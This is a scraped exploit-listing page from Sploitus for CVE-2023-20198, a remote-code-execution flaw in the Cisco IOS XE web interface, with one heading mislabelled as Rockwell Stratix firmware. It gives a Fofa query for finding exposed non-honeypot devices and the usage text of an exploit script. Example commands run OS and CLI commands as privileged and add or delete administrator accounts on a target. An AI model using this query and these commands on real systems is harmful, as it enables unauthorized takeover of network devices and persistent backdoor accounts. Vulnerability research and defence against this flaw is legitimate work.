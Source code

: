 ```yaml
---
title: Exploit for Vulnerability in Cisco Ios Xe exploit
url: https://sploitus.com/exploit?id=0004572D-8F1A-5FA0-B583-57259E099827&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2024-04-26
fetch_date: 2025-10-04T12:14:49.280357
---
```


# Exploit for Vulnerability in Cisco Ios Xe exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Unprotected Alternate Channel in Rockwellautomation Allen-Bradley\_Stratix\_5200\_Firmware CVE-2023-20198

2024-04-25 | CVSS 10.0

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=0004572D-8F1A-5FA0-B583-57259E099827
# Fofa

```
body="window.onload=function(){ url ='/webui';window.location.href=url;}" && is_honeypot=false && is_fraud=false
```

# Usage

```
usage: CVE-2023-20198-RCE.py [-h] -u URL [-p PROXY] [-au ADD_USER] [-ap ADD_PASS] [-du DEL_USER] [-pm PRIVILEGE_MODE]
                             [-em EXPLOIT_MODE] [-oc OS_CMD] [-cc CLI_CMD]

CVE-2023-20198-RCE

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     target url to check, eg: http://example.com
  -p PROXY, --proxy PROXY
                        proxy url, eg: http://127.0.0.1:8083
  -au ADD_USER, --add-user ADD_USER
                        username to add.If left blank, an 8-digit mixed case English string will be randomly
                        generated.
  -ap ADD_PASS, --add-pass ADD_PASS
                        password to add.If left blank, an 8-digit mixed case English string will be randomly
                        generated.
  -du DEL_USER, --del-user DEL_USER
                        username to delete
  -pm PRIVILEGE_MODE, --privilege-mode PRIVILEGE_MODE
                        user/privileged
  -em EXPLOIT_MODE, --exploit-mode EXPLOIT_MODE
                        user/cmd
  -oc OS_CMD, --os-cmd OS_CMD
                        exec os command
  -cc CLI_CMD, --cli-cmd CLI_CMD
                        exec cli command
```

For example:

```powershell
python CVE-2023-20198-RCE.py -u http://192.168.1.198 -p http://127.0.0.1:8083 -em cmd -pm privileged -cc "show version"

python CVE-2023-20198-RCE.py -u http://192.168.1.198 -p http://127.0.0.1:8083 -em cmd -oc "uname -a"

python CVE-2023-20198-RCE.py -u http://192.168.1.198 -p http://127.0.0.1:8083 -em user -au -ap

python CVE-2023-20198-RCE.py -u http://192.168.1.198 -p http://127.0.0.1:8083 -em user -au hahahahha -ap hahahahha

python CVE-2023-20198-RCE.py -u http://192.168.1.198 -p http://127.0.0.1:8083 -em user -du aaaaaa

```

![](https://cdn.jsdelivr.net/gh/W01fh4cker/blog_image@main/image-20240425153133359.png)
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)